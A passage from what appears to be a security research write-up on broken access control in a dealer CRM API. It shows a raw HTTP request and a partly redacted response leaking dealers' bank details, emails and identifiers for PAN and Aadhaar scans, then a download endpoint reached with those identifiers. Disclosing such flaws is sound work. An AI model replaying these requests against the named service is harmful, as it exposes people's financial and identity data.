### Dealer Data
The API call on `/api/dealeronboarding/getdealerregionlistpending` was the first API we tested after getting the JWT token. It only needed a simple integer value - `userId`

```
POST /api/dealeronboarding/getdealerregionlistpending HTTP/1.1 
Host: user.dealercrm.co.in 
Cookie: ADRUM=s=1739370080479&r=https%3A%2F%2Fwww.dealercrm.co.in%2Flogin 
Referrer: https://user.dealercrm.co.in/swagger/index.html?configUrl 
Authorization: Bearer <token> 

{"userId":1234,"processType":true}
```

Response:
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
 
[{"dealerID":1306,"dealerName":"CHOW***.LTD.","dealerZone":"West","dealerParent":"CH***","state":"MAHARASHTRA","city":"SANGLI","pinCode":"416416","dealerRegion":"W2","photoIdURL":"68b1b5b4-a3824c29-89da-1f15767c93ca.jpg","penCard":"b717266c-8d76-4096-8489-10d84b25ef81.j
 pg","dealerNameAsPerBankAcc":"CHOW**** <REDACTED>","bankAccNo":"**REDACTED**","ifscCode":"**REDACTED**","gstNo":"27AACCC92*****","onBoardingStatus":"Approve","remark":"yes","dealerChannel":"Nexa","dealerCEOName":"<REDACTED>[J10201Admin00001]","dealerAdminEmail":"*******@chow****d.com","userR
 emarks":"Request your kind approval for centralize tracking(Request Submitted By : S***** [J10201Admin00001])","rsmRemark":"Approved","requestDate":"15-Jun-2023 06:28 
PM","requestID":1306,"dealercode":"J1NA-01","dealerSubscriptionPlan":"Basic 
Plus","locationList":[{"locationCode":"MAHAVIRNAGAR,-2S(NEXA)","workShopName"
 :"MAHAVIRNAGAR,-2S(NEXA)","dealercode":"J1NA-01","city":"SANGLI","state":"MAHARASHTRA","dealerSubscriptionPlan":"Basic 
Plus"}]},
..

<TRUNCATED>
"
```
We redacted a lot of information here, but to summarize we received the following:
1. All the dealers linked to that particular user ID
2. Dealers PII:
    
    1. Bank Account information
        - IFSC CODE, Account Number
    2. Dealer admin email
    3. PAN Card URL key
    4. Aadhar Card URL key (explained later)
3. Dealer parent values, dealer ID, dealer code which will be chained with other API calls

Aadhar and PAN card are Indian Government issued Ids that are not to be shared with anyone. In the previous request we got URL keys which looked like identifiers for these files on the server. Now it wasnt hard to get the API which downloads the file based on url key. And so we passed these values in the request to `smr.dealercrm.co.in/api/awssthreebucket/downloadfileOnly` 
